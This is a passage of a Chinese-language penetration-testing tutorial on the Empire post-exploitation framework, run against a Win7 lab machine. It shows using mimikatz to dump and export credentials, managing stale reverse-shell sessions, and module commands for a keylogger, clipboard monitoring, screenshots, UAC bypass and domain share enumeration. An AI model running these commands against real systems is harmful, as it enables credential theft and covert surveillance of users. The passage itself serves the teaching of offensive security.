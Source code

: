 尝试一下 Empire 内置的 mimikatz 模块，输入 mimikatz 命令，使用 mimikatz 需要管理员权限，由于物理主机装了杀软，提权会被杀软拦截，这里使用的是 payload 域内的一台 win7 靶机。

![](https://mmbiz.qpic.cn/mmbiz_png/fQ4PtepQmkr436iavLBrcYKcoXSOYjEIKsgVuSKej0If7cTMiaSIDsUI2BO1qeibdmTPHibXtCY7sAkBXAgfNG8U1w/640?wx_fmt=png)

creds 命令可以自动过滤、整理出获取到的用户密码。

![](https://mmbiz.qpic.cn/mmbiz_png/fQ4PtepQmkr436iavLBrcYKcoXSOYjEIKC0rbXtG8v6icANeMWQxmPGqYmBPJZVqcaa5QcKRE48JGk8r24ujqKRw/640?wx_fmt=png)

当内网抓取到的密码比较多，比较乱的时候，可以通过 命令对 hash/plaintext 进行排列、增加、删除、导出等操作，

将 凭证 导出 ，输入 creds export /root/pc2.csv

![](https://mmbiz.qpic.cn/mmbiz_png/fQ4PtepQmkr436iavLBrcYKcoXSOYjEIKBoSYicIp85grdOV7mpDyWVias62WxMOC1uSHwSVv6DompYvp55nXX7oA/640?wx_fmt=png)

pc2.csv.csv

![](https://mmbiz.qpic.cn/mmbiz_png/fQ4PtepQmkr436iavLBrcYKcoXSOYjEIKnkDzq3jZib2BONsHGqAKJwjNG4kOGZ4fNicQBHQMhaX0yh90w66eucpA/640?wx_fmt=png)

在实际渗透中，总会出现部分主机会话丢失或者失效的情况，

使用 list stale 命令 列出已经丢失的反弹主机，然后输入 remove stale 命令删除已经失效的主机

![](https://mmbiz.qpic.cn/mmbiz_png/fQ4PtepQmkr436iavLBrcYKcoXSOYjEIKC4peagicM0j7PuPv9EVQGzwiaLkABPVvzndz3ZM2hYRxes65GSPa9UtQ/640?wx_fmt=png)

其他命令：

Bypass UAC 提权、SC 截图、Download 下载文件 、Upload 上传文件。。。

1.  信息收集
    
2.  search module #搜索需要使用的模块
    
3.  usemodule powershell/collection+Tab #查看完整列表
    
4.  常用模块
    
5.  usemodule powershell/collection/screenshotàexecute #截屏
    
6.  usemodule powershell/collection/keyloggeràexecute #键盘记录
    
7.  usemodule powershell/collection/clipboard_monitor #剪贴板记录
    
8.  usemodule powershell/situational_awareness/network/powerview/share_finder #列出域内所有共享
    
9.  usemodule powershell/situational_awareness/host/winenum #查看本级机用户, 域组成员系统基本信息等
    

usemodule <tab> <tab> # 查看所有模块

![](https://mmbiz.qpic.cn/mmbiz_png/fQ4PtepQmkr436iavLBrcYKcoXSOYjEIKjz5vYC17L7mQFlUAeOsWkhU9Eaw9FlebIPoE4qebuGVK8WXYxvibp1w/640?wx_fmt=png)

usemodule powershell/collection/ <tab> <tab> # 查看 collection 模块具体功能

![](https://mmbiz.qpic.cn/mmbiz_png/fQ4PtepQmkr436iavLBrcYKcoXSOYjEIK3AE7Am0Xiau07sqWHkgN6F6w9FgibB99xL27pWE8EaiaM8iaQ4JD3BtK7A/640?wx_fmt=png)

屏幕截图

usemodule powershell/collection/keylogger
